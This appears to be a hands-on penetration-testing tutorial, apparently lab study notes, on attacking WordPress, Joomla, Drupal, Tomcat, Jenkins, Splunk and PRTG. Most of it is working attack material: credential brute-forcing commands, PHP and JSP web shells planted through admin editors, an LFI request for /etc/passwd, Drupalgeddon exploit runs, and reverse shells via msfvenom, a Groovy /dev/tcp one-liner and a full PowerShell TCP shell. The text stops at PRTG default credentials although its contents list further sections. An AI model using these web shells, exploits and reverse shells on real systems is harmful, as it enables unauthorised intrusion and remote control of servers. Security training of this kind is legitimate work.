# Attacking Common Web Applications

This document outlines common techniques for identifying and exploiting vulnerabilities in widely used web applications. It is intended as a practical, hands-on reference rather than a comprehensive theoretical guide.

---

# Table of Contents

- [Attacking Common Web Applications](#attacking-common-web-applications)
  - [Overview](#overview)
  
  - [Content Management Systems (CMS)](#content-management-systems-cms)
    - [Discovery and Enumeration](#discovery-and-enumeration)
    - [WordPress - Discovery and Enumeration](#wordpress---discovery-and-enumeration)
    - [Attacking WordPress](#attacking-wordpress)
    - [Joomla - Discovery and Enumeration](#joomla---discovery-and-enumeration)
    - [Attacking Joomla](#attacking-joomla)
    - [Drupal - Discovery and Enumeration](#drupal---discovery-and-enumeration)
    - [Attacking Drupal](#attacking-drupal)

  - [Servlet Containers/Software Development](#servlet-containerssoftware-development)
    - [Tomcat - Discovery and Enumeration](#tomcat---discovery-and-enumeration)
    - [Attacking Tomcat](#attacking-tomcat)
    - [Jenkins - Discovery and Enumeration](#jenkins---discovery-and-enumeration)
    - [Attacking Jenkins](#attacking-jenkins)
  
  - [Infrastructure/Network Monitoring](#infrastructurenetwork-monitoring)
    - [Splunk - Discovery and Enumeration](#splunk---discovery-and-enumeration)
    - [Attacking Splunk](#attacking-splunk)
    - [PRTG Network Monitor](#prtg-network-monitor)

  - [Customer Service Management and Configuration Management](#customer-service-management-and-configuration-management)
    - [osTicket](#osticket)
    - [Gitlab - Discovery & Enumeration](#gitlab---discovery--enumeration)
    - [Attacking Gitlab](#attacking-gitlab)

  - [Common Gateway Interfaces](#common-gateway-interfaces)
    - [Attacking Tomcat CGI](#attacking-tomcat-cgi)


---

## Overview

During a penetration test, it is common to encounter a wide range of web applications, including content management systems (CMS), intranet portals, code repositories, monitoring platforms, ticketing systems, wikis, and containerized services.

Many organizations deploy the same applications across multiple environments (e.g., development, QA, staging, production). While an application may be properly patched and secured in one environment, it is often outdated, misconfigured, or running in debug mode in another—particularly in development or testing environments.

Commonly encountered application categories include:

| Category                          | Applications                                                      |
| --------------------------------- | ----------------------------------------------------------------- |
| Web Content Management            | Joomla, Drupal, Wordpress, NotNetNuke                             |
| Application Servers               | Apache Tomcat, Phusion Passenger, Oracle WebLogic, IBM WebSphere  |
| SIEM                              | Splunk, Trustwave, LogRhytm                                       |
| Network Management                | PRTG Network Monitor, ManageEngine Opmanager                      |
| IT Management                     | Nagios, Puppet, Zabbix, ManageEngine ServiceDesk                  |
| Software Frameworks               | JBoss, Axis2                                                      |
| Customer Service Management       | osTicket, Zendesk                                                 |
| Search Engines                    | Elasticsearch, Apache Solr                                        |
| Software Config Management        | Atlassian JIRA, Github, Gitlab, Bugzilla, Bugsnag, Bitbucket      |
| Software Dev Tools                | Jenkins, Atlassian Confluence, phpMyAdmin                         |
| Application Integration           | Oracle Fusion Middleware, BizTalk Server, Apache ActiveMQ         |

## Content Management Systems (CMS)

### Discovery and Enumeration

Organizations should maintain an up-to-date inventory of their network devices, software, and applications. If an organization lacks visibility into what exists on its network, it cannot effectively defend against attackers.

In practice, many organizations have **poor asset awareness**, which significantly benefits attackers.

From a penetration testing perspective, strong enumeration skills are essential to gain an understanding of the environment with **little to no prior information**. Enumeration typically begins with `nmap`, starting with host discovery and followed by port scanning and service enumeration.

A typical full port scan may look like the following:

```bash
sudo nmap -p- --open -iL scope_list -oA web_discovery
```

In large environments, the output from such scans can be extensive. To efficiently analyze results and identify web-facing applications, tools that consume raw `nmap` output and generate visual reports are commonly used.

Two popular tools for this purpose are:

- `EyeWitness`
- `Aquatone`

Both tools capture screenshots of discovered web services and assemble them into structured reports, making it easier to prioritize targets.

The client has provided the following scope:

```
app.inlanefreight.local
dev.inlanefreight.local
drupal-dev.inlanefreight.local
drupal-qa.inlanefreight.local
drupal-acc.inlanefreight.local
drupal.inlanefreight.local
blog-dev.inlanefreight.local
blog.inlanefreight.local
app-dev.inlanefreight.local
jenkins-dev.inlanefreight.local
jenkins.inlanefreight.local
web01.inlanefreight.local
gitlab-dev.inlanefreight.local
gitlab.inlanefreight.local
support-dev.inlanefreight.local
support.inlanefreight.local
inlanefreight.local
10.129.201.50
```

An initial nmap scan is performed against common web service ports:

```bash
sudo nmap -p 80,443,8000,8080,8180,8888,10000 --open -iL scope_list -oA web_discovery
```


Special attention should be paid to hosts containing `dev` in their fully qualified domain name (e.g., `app-dev.inlanefreight.local`), as these systems often expose **experimental features, weaker authentication, or verbose error handling**.

`EyeWitness` can ingest XML output generated by `nmap` and produce an HTML report containing screenshots, basic fingerprinting, and potential default credentials.

Install `EyeWitness`:

```bash
sudo apt install eyewitness
```

Run a default web scan and store the results in a directory named `inlanefreight_eyewitness`:

```bash
eyewitness --web -x web_discovery.xml -d inlanefreight_eyewitness
```

The generated report categorizes findings by value, with **High Value Targets** being the most relevant for further testing:



A similar enumeration process can be performed using `Aquatone`.

Download and extract binary:

```bash
wget https://github.com/michenriksen/aquatone/releases/download/v1.7.0/aquatone_linux_amd64_1.7.0.zip
unzip aquatone_linux_amd64_1.7.0.zip
```

Run the scan by piping the `nmap` XML output into `Aquatone`:

```bash
cat web_discovery.xml | ./aquatone -nmap
```


Aquatone produces categorized screenshots and metadata that help quickly identify **interesting applications, administrative panels, and non-standard services** exposed across the environment.

---

### WordPress - Discovery and Enumeration

A quick method to identify a WordPress installation is by browsing to the `/robots.txt` file. A typical WordPress `robots.txt` file may resemble the following:

```
User-agent: *
Disallow: /wp-admin/
Allow: /wp-admin/admin-ajax.php
Disallow: /wp-content/uploads/wpforms/

Sitemap: https://inlanefreight.local/wp-sitemap.xml
```

Attempting to access `/wp-admin`usually results in a redirect to `wp-login.php`, which serves as the authentication interface for the WordPress administrative backend:


WordPress defines five default user roles:

- Administrator
- Editor
- Author
- Contributor
- Subscriber

Gaining **administrator-level access** is typically sufficient to achieve remote code execution (RCE) through theme or plugin modification.

Lower-privileged roles such as **Editor** or **Author** may still be valuable, as they can sometimes manage content or interact with **vulnerable plugins** that are inaccessible to standard users.

WordPress plugins are stored in the following directory:
```

/wp-content/plugins
```

This path is particularly useful during enumeration, as installed plugins can often be fingerprinted directly from the page source.

For example, searching for plugin references in the homepage source:

```bash
curl -s http://blog.inlanefreight.local/ | grep plugins
```


The output reveals that the **Contact Form 7** and **mail-masta** plugins are installed.

Browsing directly to the plugin directory:

```
http://blog.inlanefreight.local/wp-content/plugins/mail-masta/
```

shows that **directory listing is enabled**:



Inspecting the `readme.txt` file reveals that the installed version of `mail-masta` is **1.0**, which is affected by a **Local File Inclusion (LFI)** vulnerability.

WordPress themes are stored in the following directory:

```
/wp-content/themes/
```

As with plugins, active themes can often be identified from the page source:

```bash
curl -s http://blog.inlanefreight.local/ | grep themes
```



The output indicates that the **Business Gravity** and **Transport Gravity** themes are in use.

By default, WordPress allows **user enumeration** through its authentication error messages.

Submitting an **invalid username** produces the following response:

```
Error: The username <userName> is not registered on this site. If you are unsure of your username, try your email address instead.
```



Submitting a **valid username** with an **invalid password** results in a different error message:

```
Error: The password you entered for the username admin is incorrect. Lost your password?
```


The difference in error messages allows attackers to **distinguish valid usernames**, which can later be used for password attacks

WordPress enumeration can be automated using `WPScan`, a dedicated WordPress security scanner. When supplied with an API token, WPScan also reports known vulnerabilities affecting detected plugins and themes.

API tokens can be obtained from:

```
https://wpscan.com/
```

The following example enumerates vulnerable plugins, themes, users, media files, and backups:

```bash
sudo wpscan --url http://blog.inlanefreight.local --enumerate --api-token dEOFB<SNIP>
```

Plugin and theme enumeration can also be performed using generic fuzzing tools such as `ffuf`.

Example command using a predefined wordlist and request template:

```bash
ffuf -w plugins.txt:FUZZ -request req.txt -request-proto http
```


---

### Attacking WordPress

Common attacks against WordPress installations include **credential brute-forcing** and **abuse of vulnerable themes or plugins** to achieve remote code execution (RCE).

WPScan can be used to perform password brute-force attacks against WordPress authentication mechanisms. The tool supports brute-forcing via:

- The standard `wp-login.php` endpoint
- The `xmlrpc.php` endpoint

The `xmlrpc` method is generally faster, as it leverages the WordPress XML-RPC API to perform authentication attempts via `/xmlrpc.php`.

Previous enumeration identified the following valid users:

- `admin`
- `doug`



A password brute-force attack is performed against the user `doug` using WPScan’s XML-RPC mode:

```bash
sudo wpscan --password-attack xmlrpc -t 20 -U doug -P xato-net-10-million-passwords-1000000.txt --url http://blog.inlanefreight.local
```

Valid credentials are discovered:

```
doug:jessica1
```


Logging in via `/wp-login.php` using the recovered credentials grants **administrative access** to the WordPress backend:



With administrator privileges, it is possible to directly modify PHP source files associated with themes or plugins.

Navigate to `Appearance` &rarr; `Theme Editor`. Select an inactive theme to reduce the likelihood of detection, in this case `Select theme to edit` &rarr; `Twenty Nineteen` &rarr; `404 Template`.


Insert a simple PHP web shell and clck `Update File`:

```php
system($_GET['cmd']);
```



Commands can now be executed by supplying the `cmd` parameter via a GET request:

```
http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?cmd=id
```

or

```bash
curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?cmd=ls+-la
```

This confirms successful remote code execution on the target system:



An alternative approach is to obtain a reverse shell using the `Metasploit` module:

```
wp_admin_shell_upload
```

Example configuration:

```bash
use exploit/unix/webapp/wp_admin_shell_upload
set username doug
set password jessica1
set rhosts 10.129.223.154
set vhost blog.inlanefreight.local
set lhost 10.10.14.212
exploit
```


The majority of real-world WordPress vulnerabilities originate from third-party plugins rather than WordPress core.

For example, the `mail-masta` plugin is vulnerable to **unauthenticated SQL injection** and **Local File Inclusion (LFI)**. The vulnerable PHP code is shown below:

```php
<?php 

include($_GET['pl']);
global $wpdb;

$camp_id=$_POST['camp_id'];
$masta_reports = $wpdb->prefix . "masta_reports";
$count=$wpdb->get_results("SELECT count(*) co from  $masta_reports where camp_id=$camp_id and status=1");

echo $count[0]->co;

?>
```

The `pl` parameter is passed directly to `include()` without any input validation or sanitization, allowing arbitrary file inclusion.

An attacker can exploit this behavior to read sensitive files from the underlying system:

```bash
curl -s http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```


This confirms a Local File Inclusion (LFI) vulnerability that can potentially be chained with other techniques (e.g., log poisoning) to achieve code execution.

---

### Joomla - Discovery and Enumeration

Joomla is a popular open-source content management system (CMS) commonly used for forums, photo galleries, e-commerce platforms, and other web applications. It is written in **PHP** and typically uses **MySQL** as its backend database. Similar to WordPress, Joomla can be extended through **third-party extensions** and **templates**, which are frequent sources of vulnerabilities.

Joomla installations can often be identified by inspecting the page source for Joomla-specific references:

```bash
curl -s http://app.inlanefreight.local/ | grep Joomla
```

The response confirms that the target is running Joomla:



A typical Joomla `robots.txt` file may also reveal the underlying CMS:



If present, the `README.txt` file can be used to directly fingerprint the Joomla version:

```bash
curl -s http://app.inlanefreight.local/README.txt | head
```


In some environments, the Joomla version can also be extracted from the following XML file:

```
/administrator/manifests/files/joomla.xml
```

Example request:

```bash
curl -s http://dev.inlanefreight.local/administrator/manifests/files/joomla.xml
```



Joomla enumeration can be automated using `Droopescan`, a CMS vulnerability scanner that supports Joomla, WordPress, and Drupal.

Install `Droopescan`:

```bash
sudo pip3 install droopescan
```

Run a basic Joomla scan:

```bash
droopescan scan joomla --url http://app.inlanefreight.local/
```

The scan successfully fingerprints the Joomla version and identifies interesting endpoints, including the administrator login page:

```
http://app.inlanefreight.local/administrator
```



The default administrative username in Joomla is `admin`. When invalid credentials are submitted, Joomla responds with a generic error message:

```
Warning
Username and password do not match or you do not have an account yet.
```


Because Joomla does not differentiate between invalid usernames and invalid passwords, **username enumeration is not as straightforward** as it is with WordPress.

As a result, attackers typically attempt to brute-force the default `admin account`, relying on **weak or reused passwords**.

A simple Python-based brute-force tool for Joomla authentication is available at:

```
https://github.com/ajnik/joomla-bruteforce
```

Execute a brute-force attack against the `admin` user using a common password list:

```bash
sudo python3 joomla-brute.py -u http://app.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
```

The attack successfully identifies valid administrator credentials:

```
admin:turnkey
```

---

### Attacking Joomla

Using the credentials obtained during enumeration (`admin:turnkey`), authentication to the Joomla administrator backend is successful:

```
http://dev.inlanefreight.local/administrator/
```


With administrative access, the primary goal is to achieve remote code execution (RCE) by injecting a PHP web shell.

Joomla allows administrators to customize template files directly through the backend interface. This functionality can be abused to inject malicious PHP code. Go to the `Configuration` &rarr; `Templates` to get to the templates menu.



Two templates are available:

- `Beez3`
- `Protostar`


Click on the **Protostar** template under the `Template` column to access the template editor:


Select a PHP file such as `error.php`, and insert the following web shell:

```php
system($_GET['cmd']);
```


Click `Save & Close` and verify code execution by issuing a request to the modified template:

```bash
curl -s http://dev.inlanefreight.local/templates/protostar/error.php?cmd=ls-la
```

Successful command execution confirms **remote code execution** on the target system:


In some cases, administrative access may not be available, or direct template modification may be restricted. In such scenarios, exploitation often relies on **known vulnerabilities** in the Joomla core or installed extensions.

The target is running Joomla version `3.9.4`, which can be confirmed as follows:

```bash
curl -s http://dev.inlanefreight.local/administrator/manifests/files/joomla.xml | head
```


Joomla `3.9.4`, released in 2019, is vulnerable to [CVE-2019-10945](https://www.cve.org/CVERecord?id=CVE-2019-10945).

A short description of the vulnerability:

```
The Media Manager component does not properly sanitize the folder parameter, 
allowing attackers to act outside the media manager root directory.
```

This flaw results in a **directory traversal vulnerability**, which can be abused to read arbitrary files and, in some configurations, escalate further.

A public proof-of-concept exploit is available on **Exploit-DB**:

```
https://www.exploit-db.com/exploits/46710
```

Review the available options:

```bash
python3 CVE-2019-10945.py --help
```


Execute the exploit using valid credentials:

```bash
python3 CVE-2019-10945.py --url "http://dev.inlanefreight.local/administrator/" --username admin --password admin --dir /
```


This confirms successful exploitation of the vulnerability and demonstrates the risk posed by **outdated Joomla installations**.

---

### Drupal - Discovery and Enumeration

Drupal is another widely used open-source content management system (CMS). Like WordPress and Joomla, Drupal is written in **PHP** and typically uses a **MySQL** backend database. Drupal functionality can be extended through **modules**, which are a common source of vulnerabilities. 

Drupal installations can be identified in several ways. One common indicator is a header or footer message stating `Powered by Drupal`.

```bash
curl -s http://drupal.inlanefreight.local | grep -i "Drupal"
```


Another identification method is the presence of the `README.txt` or `CHANGELOG.txt` files in the web root:

```bash
curl -s http://drupal.inlanefreight.local/README.txt | grep -i "Drupal"
```

```bash
curl -s http://drupal.inlanefreight.local/CHANGELOG.txt | grep -i "Drupal"
```



By default, Drupal supports three user types:

- `Administrator`
  - Full administrative control over the application
- `Authenticated User`
  - Can log in and perform actions such as creating and editing content
- `Anonymous`
  - Unauthenticated user with read-only access

Modern versions of Drupal often restrict access to `README.txt` and `CHANGELOG.txt` by default. In such cases, additional enumeration techniques are required to identify the exact version.

If `CHANGELOG.txt` is accessible, the Drupal version is typically listed at the beginning of the file:

```bash
curl -s http://drupal-qa.inlanefreight.local/CHANGELOG.txt | head
```



Drupal enumeration can be automated using `Droopescan`, which provides more comprehensive support for Drupal compared to Joomla.

Run a Drupal scan:

```bash
droopescan scan drupal -u http://drupal.inlanefreight.local
```

`Droopescan` successfully identifies the Drupal version and enumerates installed modules:


This information can then be used to search for **known vulnerabilities** affecting the identified Drupal core version or installed modules.

---

### Attacking Drupal

Older versions of Drupal (prior to version 8) allow administrators to enable the **PHP Filter** module, which permits embedding raw PHP code into page content. When abused, this functionality can be leveraged to **achieve remote code execution (RCE)**.

With administrative access, navigate to the `Modules` tab and enable the **PHP Filter** module by selecting the checkbox and clicking `Save configuration`:


To embed malicous PHP code, create a new page by navigating to `Content` &rarr; `Add content` &rarr; `Basic page`:



Insert the following PHP web shell into the page body:

```php
<?php system($_GET['cmd']); ?>
```

From the `Text format` dropdown, select `PHP code`:



After clicking `Save`, Drupal redirects to the newly created page:

```
http://drupal-qa.inlanefreight.local/node/3
```

Commands can now be executed via the `cmd` GET parameter:

```bash
curl -s http://drupal-qa.inlanefreight.local/node/3?cmd=id | grep uid
```



This confirms successful **remote code execution** through post-authentication abuse of Drupal functionality.

Drupal core has historically suffered from several critical vulnerabilities collectively known as **Drupalgeddon**. Three notable examples include:

- [CVE-2014-3704](https://www.drupal.org/forum/newsletters/security-advisories-for-drupal-core/2014-10-15/sa-core-2014-005-drupal-core-sql)'
  - SQL injection vulnerability affecting versions `7.0` &rarr; `7.31`
  - Allows unauthenticated attackers to create administrative users
- [CVE-2018-7600](https://www.drupal.org/sa-core-2018-002)
  - Remote code execution vulnerability affecting versions prior to`7.58` and `8.51`
- [CVE-2018-7602](https://www.cvedetails.com/cve/CVE-2018-7602/)
  - Remote code execution vulnerability affecting multiple versions `7.x` and `8.x` versions

**Exploiting Drupalgeddon 1 (CVE-2014-3704)**

A public exploit is available on Exploit-DB:

```
https://www.exploit-db.com/exploits/34992
```

The exploit attempts to create a new administrative user via SQL injection:

```bash
python2.7 drupalgeddon.py -t http://drupal-qa.inlanefreight.local -u hacker -p pwnd
```

If successful, authentication using the newly created credentials is possible:



Once logged in, previously discussed post-authentication techniques can be used to obtain RCE.


The same vulnerability can also be exploited using the `Metasploit` module:

```
exploit/multi/http/drupal_drupageddon
```

**Exploiting Drupalgeddon 2 (CVE-2018-7600)**

A proof-of-concept exploit for Drupalgeddon 2 is available at:

```
https://www.exploit-db.com/exploits/44448
```

Executing the exploit:

```bash
python3 CVE-2018-7600.py 
```



The script uploads a test file to confirm exploitation. Successful exploitation can be verified by requesting the uploaded file:

```bash
curl -s http://drupal-dev.inlanefreight.local/hello.txt
```


**Exploiting Drupalgeddon 3 (CVE-2018-7602)**

Exploitation of Drupalgeddon 3 requires the ability to delete a node, meaning some level of authenticated access is necessary.

If valid credentials are available, the vulnerability can be exploited using `Metasploit` after authenticating to obtain a session cookie:



---

## Servlet Containers/Software Development

### Tomcat - Discovery and Enumeration

Apache Tomcat is an open-source **Java servlet container** used to host Java-based web applications. While Tomcat is less commonly exposed directly to the internet compared to traditional web servers, it frequently appears during internal penetration tests and is occasionally encountered in external assessments.

Tomcat instances can often be identified through HTTP response headers or default page content:

```bash
curl -s http://app-dev.inlanefreight.local:8080/ | grep -i "tomcat"
```

The response confirms that the target is running Apache Tomcat version `9.0.3`:


In some cases, administrators configure **custom error pages** that suppress version information. When this occurs, an alternative fingerprinting technique is to access the default Tomcat documentation page, which is frequently left exposed:

```
/docs
```

Example:

```bash
curl -s http://app-dev.inlanefreight.local:8080/docs | grep -i "tomcat"
```

A default Apache Tomcat installation contains the following directory structure:


The most important directory from an attacker’s perspective is:

```
/webapps
```

This directory serves as Tomcat’s **default webroot**. Each subdirectory under `webapps` represents a deployed Java web application and typically follows this structure:



The most critical file within a Java web application is:

```
WEB-INF/web.xml

```

This file is known as the deployment descriptor and defines:

- Application routes (URL patterns)
- Servlets handling incoming requests
- Access control and configuration logic

Misconfigurations or vulnerabilities related to this file can result in **complete compromise** of the application.

Example `web.xml` file:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>

<!DOCTYPE web-app PUBLIC "-//Sun Microsystems, Inc.//DTD Web Application 2.3//EN" "http://java.sun.com/dtd/web-app_2_3.dtd">

<web-app>
  <servlet>
    <servlet-name>AdminServlet</servlet-name>
    <servlet-class>com.inlanefreight.api.AdminServlet</servlet-class>
  </servlet>

  <servlet-mapping>
    <servlet-name>AdminServlet</servlet-name>
    <url-pattern>/admin</url-pattern>
  </servlet-mapping>
</web-app> 
```

This configuration defines a servlet named `AdminServlet`, implemented by the Java class:

```
com.inlanefreight.api.AdminServlet
```

Java uses dot notation to represent package paths. The corresponding compiled class file would be located at:

```
classes/com/inlanefreight/api/AdminServlet.class
```

Understanding servlet mappings is crucial during enumeration, as sensitive functionality is often exposed through **poorly protected servlet endpoints**.

After fingerprinting the Tomcat version, a common next step is to check for exposed administrative interfaces:

- `/manager`
- `/host-manager`

These endpoints are frequently misconfigured or protected with **weak credentials**.

Fuzzing can be used to quickly identify their presence:

```bash
ffuf -w directory-list-2.3-small.txt:FUZZ -u http://web01.inlanefreight.local:8180/FUZZ -ic
```



If accessible, these interfaces often allow:

- Application deployment
- WAR file uploads
- Full remote code execution

---

### Attacking Tomcat

If the `/manager` or `/host-manager` endpoints are accessible, it is often possible to achieve remote code execution (RCE) on the Tomcat server.

When attempting to authenticate using the credentials `admin:admin`, the server responds with an HTTP Basic Authentication challenge:

```
Authorization: Basic YWRtaW46YWRtaW4=
```



This indicates that Tomcat Manager is protected using **basic authentication**, which is frequently misconfigured with **weak or default credentials**.

The `Metasploit` module ´scanner/http/tomcat_mgr_login` can be used to brute-force valid credentials:

```
use scanner/http/tomcat_mgr_login
set VHOST web01.inlanefreight.local
set RPORT 8180
set RHOSTS 10.129.201.58
set stop_on_success true
exploit
```

Valid credentials are discovered:

```
tomcat:root
```



Using the recovered credentials, authentication succeeds and access to the **Tomcat Web Application Manager** is granted:

```
/manager/html
```



The Manager interface allows authenticated users to:

- Deploy and undeploy applications
- Upload WAR archives
- Execute arbitrary code via uploaded applications

Tomcat applications are deployed using **Web Application Archive (WAR)** files. By uploading a malicious WAR file, an attacker can gain code execution on the underlying system.

A simple **JSP** web shell is created with the following content:

```java
<%@ page import="java.util.*,java.io.*"%>
<%
//
// JSP_KIT
//
// cmd.jsp = Command Execution (unix)
//
// by: Unknown
// modified: 27/06/2003
//
%>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); 
                disr = dis.readLine(); 
                }
        }
%>
</pre>
</BODY></HTML>
```

Save the file as `cmd.jsp`, then package it into a WAR archive:

```bash
zip -r backup.war cmd.jsp 
```



Under the `Deploy` section, click on `Select WAR file to upload` and then on `Deploy`:



The application appears in the `Applications` list, confirming successful deployment:


The deployed application is accessible at:

```
http://web01.inlanefreight.local:8180/backup/cmd.jsp
```

Commands can be executed using the `cmd` parameter:

```bash
http://web01.inlanefreight.local:8180/backup/cmd.jsp?cmd=id
```

or

```bash
curl -s http://web01.inlanefreight.local:8180/backup/cmd.jsp?cmd=id
```


This confirms successful remote code execution on the Tomcat host.

A reverse shell can be obtained using `msfvenom` to generate a malicious JSP WAR payload:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.4 LPORT=1337 -f war > backup.war
```

Upload the generated `backup.war` file using the same process as before.

Start a listener on the attacking machine:

```bash
nc -lvnp 1337
```

Trigger the payload by accessing the deployed application through the browser or Manager interface:


A reverse shell is successfully established:



Apache Tomcat is a **high-value target** in both internal and external penetration tests. Whenever a Tomcat instance is discovered, the **Manager and Host Manager interfaces should be immediately assessed** for weak or default credentials.

If access is obtained, it can typically be converted into **full remote code execution within minutes**. Tomcat frequently runs with **high privileges** (e.g., `root` or `SYSTEM`), making it an excellent foothold for further lateral movement in both Linux environments and domain-joined Windows systems.

---

### Jenkins - Discovery and Enumeration

Jenkins is an open-source **automation server** written in Java that is commonly used to build, test, and deploy software projects. It typically runs as a web application inside a **servlet container** such as **Apache Tomcat**.

Over the years, Jenkins has been affected by numerous vulnerabilities, including several that allow **remote code execution (RCE)**, sometimes even **without authentication**.

By default, Jenkins listens on TCP port `8080`. It may also use port `5000` for communication with distributed build agents (slave nodes).

A Jenkins instance is easy to identify by its distinctive login page:


The default Jenkins username is `admin`, but the password is not fixed during installation. In real-world environments—especially during **internal penetration tests**—it is common to encounter Jenkins instances that:

- Use weak or default credentials (e.g., `admin:admin`)
- Have authentication completely disabled

In this scenario, the target Jenkins instance is protected by weak credentials:

```
admin:admin
```



After successful authentication, the Jenkins version can be fingerprinted directly from the page source. The version is often exposed in a `data-version` attribute:

```
data-version="2.303.1"
```



Identifying the exact Jenkins version is critical, as it allows attackers to research **known vulnerabilities**, public exploits, and misconfigurations that may lead to privilege escalation or remote code execution.

---

### Attacking Jenkins

In the previous section, we identified that the target is running Jenkins and is protected by **weak credentials** (`admin:admin`). Jenkins is frequently installed and executed in the context of **high-privileged accounts** such as `root` (Linux) or `SYSTEM` (Windows), making successful exploitation especially impactful.

A common and reliable method of achieving **remote code execution** in Jenkins is through the **Script Console**. The Script Console allows authenticated administrators to execute **arbitrary Groovy scripts** within the Jenkins controller runtime. **Apache Groovy** is an object-oriented scripting language that is fully compatible with Java, allowing direct interaction with the underlying operating system.

The Script Console is accessible through the following endpoint:

```
http://jenkins.inlanefreight.local:8000/script
```



The following Groovy script executes the `id` command on the underlying operating system and prints the output to the console:

```groovy
def cmd = 'id'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sout
```

Successful output confirms arbitrary command execution on the Jenkins host.


The Script Console can also be leveraged to obtain an interactive shell. The following Groovy script spawns a **reverse shell** back to the attacker:

```groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.4/1337;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

After starting a listener on the attacker machine, this results in an **interactive shell** running in the security context of the Jenkins service account.



---

## Infrastructure/Network Monitoring

---

### Splunk - Discovery and Enumeration

Splunk is a log analytics and monitoring platform used to collect, analyze, and visualize large volumes of data. It is commonly deployed for **security monitoring**, **incident response**, and **business analytics**, and often stores **highly sensitive information**, making it an attractive target during penetration tests.

Splunk has historically suffered from relatively few critical vulnerabilities, with most serious issues being quickly patched. Two notable examples include:

- [CVE-2018-11409](https://nvd.nist.gov/vuln/detail/cve-2018-11409)
  - Information disclosure vulnerability
- [CVE-2011-4632](https://nvd.nist.gov/vuln/detail/CVE-2011-4642)
  - Remote code execution vulnerability

Because Splunk vulnerabilities are uncommon, the **primary attack vector** from an attacker’s perspective is **weak**, **default**, or **missing authentication**. Administrative access to Splunk allows users to deploy **custom applications and scripts**, which can be abused to obtain remote code execution.

Splunk is frequently encountered during **internal penetration tests**, especially in large corporate environments. It often runs as `root` on Linux or `SYSTEM` on Windows, significantly increasing the impact of successful exploitation.

Older versions of Splunk ship with default credentials:

```
admin:changeme
```

Newer versions prompt the administrator to set credentials during installation. If default credentials fail, it is always worth testing for **weak or commonly reused passwords**.

Additionally, the **Splunk Enterprise trial** automatically converts to a **free version after 60 days**. The free version **does not require authentication**, which can introduce a serious security risk if administrators forget to secure or remove the instance.


Splunk can often be identified through an `nmap` scan:

```
sudo nmap -p- -sV 10.129.163.3
```

In this case, Splunk is detected running on:

- Port `8000` — Web interface
- Port `8089` — Management port used for the Splunk REST API



The Splunk version can often be fingerprinted directly from the **page source** of the web interface:


Splunk provides several built-in mechanisms that allow execution of system commands, including:

- Server-side Django applications
- REST endpoints
- Scripted inputs
- Alerting scripts

Among these, **scripted inputs** are the most straightforward and commonly abused technique. Every Splunk installation includes **Python**, and attackers with administrative access can configure scripted inputs to execute arbitrary Python code, including **reverse shells**.

---

### Attacking Splunk

During the enumeration phase, we identified that the target was running **Splunk on a Windows server**. With administrative access, Splunk allows users to deploy **custom applications**, which can be abused to achieve remote code execution using Python or PowerShell.

A public repository containing prebuilt Splunk reverse shells for both languages can be found at:

```
https://github.com/0xjpuff/reverse_shell_splunk
```

To create a malicious Splunk application, the following directory structure must be respected:

```bash
tree reverse_shell_splunk/
```


- The `/bin` directory contains scripts that will be executed by Splunk
- The `/default` directory contains configuration files, such as `inputs.conf`, which define how and when scripts are run


In this example, we use a PowerShell reverse shell (`rev.ps1`) executed by Splunk. The script establishes a TCP connection back to the attacker:

```ps1
#Uncomment and change the hardcoded IP address and port number in the below line. Remove all help comments as well.
$client = New-Object System.Net.Sockets.TCPClient('attacker_ip_here',attacker_port_here);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

The `inputs.conf` file instructs Splunk which script to run and how often to run it using the `interval` directive:

```bash
cat ./reverse_shell_splunk/default/inputs.conf
```


A Windows batch file (`run.bat`) is used to execute the PowerShell script when the application is deployed:

```bash
cat ./reverse_shell_splunk/bin/run.bat
```


Once all files are in place, the application is packaged into a tarball:

```bash
tar -cvzf updater.tar.gz reverse_shell_splunk/
```



The application can then be uploaded via the Splunk web interface:
- `Splunk Apps` &rarr; `Apps` &rarr; `Manage Apps` &rarr; `Install App From file`


Start a listener on the attacker machine:

```bash
nc -lvnp 1337
```

As soon as the application is uploaded, Splunk executes the scripted input, triggering the reverse shell:


---

### PRTG Network Monitor

**PRTG Network Monitor** is an agentless network monitoring solution used to track bandwidth usage, uptime, and performance metrics across a wide range of devices, including routers, switches, servers, and virtual infrastructure.

PRTG performs **automatic network discovery**, scanning defined network ranges and building a device inventory. Once devices are identified, PRTG collects data using protocols such as:

- ICMP
- SNMP
- WMI
- NetFlow
- REST API communication

The management interface is delivered through an **AJAX-based web application**, with optional desktop clients for Windows, Linux, and macOS.

PRTG commonly runs on standard web ports such as `80`, `443`, or `8080`. It can often be identified through service enumeration with `nmap`:

```bash
sudo nmap -p- --open -sV 10.129.201.50
```

In this case, PRTG was discovered running on port `8080`, and the service banner clearly identified the application and version:

```
8080/tcp  open  http  Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
```


PRTG ships with default administrative credentials:

```
prtgadmin:prtgadmin
```


